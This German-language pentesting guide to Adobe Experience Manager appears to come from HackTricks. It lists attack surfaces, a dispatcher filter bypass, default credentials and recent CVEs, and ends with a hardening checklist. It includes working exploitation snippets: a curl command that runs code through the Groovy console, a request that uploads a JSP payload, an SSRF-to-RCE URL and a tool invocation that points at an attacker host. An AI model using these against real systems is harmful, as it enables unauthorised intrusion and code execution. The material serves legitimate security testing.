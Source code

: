 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, Teil der Adobe Experience Cloud) ist ein Unternehmens-CMS, das auf Apache Sling/Felix (OSGi) und einem Java Content Repository (JCR) basiert.
> Aus der Perspektive eines Angreifers exponieren AEM-Instanzen sehr oft gefährliche Entwicklungsendpunkte, schwache Dispatcher-Regeln, Standardanmeldeinformationen und eine lange Liste von CVEs, die jedes Quartal gepatcht werden.

Die folgende Checkliste konzentriert sich auf **extern erreichbare (unauth) Angriffsflächen**, die in realen Engagements immer wieder auftauchen (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Andere schnelle Indikatoren:
* `/etc.clientlibs/` statischer Pfad vorhanden (gibt JS/CSS zurück).
* `/libs/granite/core/content/login.html` Anmeldeseite mit dem Banner „Adobe Experience Manager“.
* `</script><!--/* CQ */-->` Kommentar am Ende des HTML.

---

## 2. Hochwertige nicht authentifizierte Endpunkte

Pfad | Was Sie erhalten | Anmerkungen
---- | ------------- | -----
`/.json`, `/.1.json` | JCR-Knoten über **DefaultGetServlet** | Oft blockiert, aber *Dispatcher-Bypass* (siehe unten) funktioniert.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Leak des Seitenbaums, interner Pfade, Benutzernamen.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix-Konsole | Standardmäßig 403; wenn exponiert & Anmeldeinformationen gefunden ⇒ Bundle-Upload RCE.
`/crx/packmgr/index.jsp` | Paketmanager | Ermöglicht authentifizierte Inhalts-Pakete → JSP-Payload-Upload.
`/etc/groovyconsole/**` | AEM Groovy-Konsole | Wenn exponiert → beliebige Groovy / Java-Ausführung.
`/libs/cq/AuditlogSearchServlet.json` | Audit-Protokolle | Informationsoffenlegung.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs-Dump | XSS-Vektor.

### Dispatcher-Bypass-Trick
Die meisten Produktionsseiten befinden sich hinter dem *Dispatcher* (Reverse-Proxy). Seine Filterregeln können umgangen werden, indem eine erlaubte statische Erweiterung **nach einem Semikolon oder einem kodierten Zeilenumbruch** angehängt wird:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Eine einzelne Anfrage wie oben offenbart häufig Benutzerprofilknoten mit E-Mail-Adressen. P-T Partners veröffentlichte gute Hinweise zu dieser Schwäche. 【】

---

## 3. Häufige Fehlkonfigurationen (immer noch aktiv im Jahr 2025)

1. **Anonymer POST-Servlet** – `POST /.json` mit `:operation=import` ermöglicht es, neue JCR-Knoten zu erstellen. Das Blockieren von `*.json` POST im Dispatcher behebt dies. 【】
2. **Weltweit lesbare Benutzerprofile** – Standard-ACL gewährt `jcr:read` auf `/home/users/**/profile/*` für alle.
3. **Standardanmeldeinformationen** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** aktiviert ⇒ reflektiertes XSS über `?debug=layout` (CVE-2016-7882, immer noch bei Legacy 6.4-Installationen gefunden).
5. **Groovy-Konsole exponiert** – Remote-Code-Ausführung durch das Senden eines Groovy-Skripts:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Jüngste Schwachstellen (Service-Pack-Taktung)

Quartal | CVE | Betroffen | Auswirkung
------- | --- | -------- | ------
Dez 2024 | **CVE-2024-43711** | 6.5.21 und früher | Unzureichende Eingangsvalidierung → **Willkürliche Codeausführung** (benötigt Authentifizierung mit niedrigen Rechten). 【】
Dez 2024 | CVE-2024-43724/26 | 6.5.21 und früher | DOM / Stored XSS im Move Page Wizard. 【】
Dez 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | DOM-basiertes XSS über eine gestaltete URL. 【】
Dez 2022 | CVE-2022-30683 | ≤ 6.5.13 | Krypto-Designfehler → geheime Entschlüsselung (benötigt Anmeldeinformationen mit niedrigen Rechten). 【】

Überprüfen Sie immer das *APSB*-Bulletin, das dem Service-Pack des Kunden entspricht, und fordern Sie das neueste **6.5.22** oder *Cloud Service 2024.11* an.

---

## 5. Ausnutzungs-Snippets

### 5.1 RCE über Dispatcher-Bypass + JSP-Upload
Wenn anonymes Schreiben möglich ist:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Jetzt anfordern `/content/evil.jsp` – das JSP läuft mit dem AEM-Prozessbenutzer.

### 5.2 SSRF zu RCE (historisch < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` von **aem-hacker** automatisiert die gesamte Kette. 【】

---

## 6. Tooling

* **aem-hacker** – Schweizer Taschenmesser für Enumeration, unterstützt Dispatcher-Bypass, SSRF-Erkennung, Standard-Credentials-Überprüfungen und mehr.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – rekursiv `/_jcr_content.(json|html)` anfordern, um versteckte Komponenten zu entdecken.
* **osgi-infect** – bösartiges OSGi-Bundle über `/system/console/bundles` hochladen, wenn Anmeldeinformationen verfügbar sind.

---

## 7. Härtungscheckliste (für die Empfehlungen Ihres Berichts)

1. Halten Sie die Instanz auf dem **neueste kumulative Servicepack** (Stand Juli 2025: 6.5.22).
2. Entfernen/rotieren Sie Standardkonten; erzwingen Sie SSO/SAML.
3. Verschärfen Sie die **Dispatcher-Filter** – verweigern Sie `;`, kodierte Zeilenumbrüche und `*.json` oder `*.querybuilder.json` für anonyme Benutzer.
4. Deaktivieren oder schützen Sie Konsolen (`/system/console`, `/crx/*`, `/etc/groovyconsole`) mit IP-Whitelist.
5. Wenden Sie das *Anonymous Permission Hardening*-Paket an, das von Adobe bereitgestellt wird.

## References

* Adobe Security Bulletin APSB24-69 – „Sicherheitsupdates für Adobe Experience Manager (Dez 2024)“.
* 0ang3el – aem-hacker Tool (GitHub).
{{#include ../../banners/hacktricks-training.md}}
